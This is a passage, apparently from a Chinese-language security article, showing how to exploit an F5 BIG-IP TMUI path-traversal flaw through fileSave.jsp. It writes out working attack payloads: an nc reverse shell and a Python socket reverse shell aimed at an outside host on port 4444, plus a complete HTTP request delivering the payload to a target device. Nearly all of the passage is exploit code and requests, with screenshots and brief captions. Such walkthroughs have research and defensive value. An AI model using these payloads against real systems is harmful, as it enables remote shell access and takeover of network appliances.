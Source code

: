 
  
成功写入到/tmp/1.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHE72NWXHsunwwKiaX8RyJGf5tfuvAB8BWec7MpML2icHT6ZHzgaR9Szcw/640?wx_fmt=png "")  
  
b、nc反弹shell  

```
fileSave.jsp?fileName=/tmp/1.txt&content=nc+192.168.174.131+4444+-t+-e+/bin/bash
```

  
F5 BIG-IP主机自带nc,所以这里也可以使用nc来反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHldPca14Nedsdic2CxtfW3mVkibtaaia9ZiaWoTE25azf3rvnUibuERN6J6Q/640?wx_fmt=png "")  
  
操作如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH21oBV1ycUYKCFdoQoRX3iaQo3sHDw9SglAKiaRLx1D843ibmBejTb1qHg/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=nc+192.168.174.131+4444+-t+-e+/bin/bash HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

  
成功写入：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHHVQ1UhWWUONRicRHlkaDsEIUYIQjHYgHIpRQhgr6sqwTHsQKs7euGpQ/640?wx_fmt=png "")  
  
c、python反弹shell  

```
fileSave.jsp?fileName=/tmp/1.txt&content=python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&#34;192.168.174.131&#34;,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([&#34;/bin/bash&#34;,&#34;-i&#34;]);'
```
